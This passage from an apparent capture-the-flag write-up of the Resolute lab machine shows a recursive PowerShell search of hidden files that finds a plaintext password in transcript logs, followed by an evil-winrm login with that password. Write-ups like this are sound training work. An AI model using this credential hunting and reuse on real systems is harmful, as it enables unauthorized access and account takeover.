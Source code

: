 ```text
```

### user.txt

`whoami /all` didn't reveal any information that we didn't already know, so we will have to continue searching for useful things. I did find the user flag on `melanie`'s `\Desktop` though!

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User - melanie

Since we noticed the user `ryan` earlier had access to the `DnsAdmin` group, I figured that it would be good to search for any files with his name in it. Since we are in a Powershell environment, `Get-ChildItem` is the command we want. `ls` is a common alias to that command which is why the below command works. `-R` Makes the search recursive, `-Hidden` includes hidden files in the search, `-EA SilentlyContinue` is shorthand for `-ErrorAction Silently Continue` and specifies that we do not want to see any errors that result \(such as files or directories that we don't have access to\). `Select-String` is similar to the Linux `grep` command.

```csharp
*Evil-WinRM* PS C:\> ls -R -Hidden -EA SilentlyContinue | select-string ryan

PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:4:Username: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:5:RunAs User: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:29:PS>ParameterBinding(Out-String): name="InputObject"; value="PS megabank\ryan@RESOLUTE Documents> "
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:30:PS megabank\ryan@RESOLUTE Documents>
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:35:>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:43:Username: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:44:RunAs User: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:64:+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:70:+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:77:Username: MEGABANK\ryan
PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt:78:RunAs User: MEGABANK\ryan
```

It seems as if the user `ryan` used the `net use` command to connect to an external share, leaving his credentials `ryan:Serv3r4Admin4cc123!` in the Powershell transcripts! We can now try to login as `ryan` using `Evil-WinRM` since he is also a member of the `Remote Management Users` group.

```bash
zweilos@kalimaa:~/htb/resolute$ evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
```
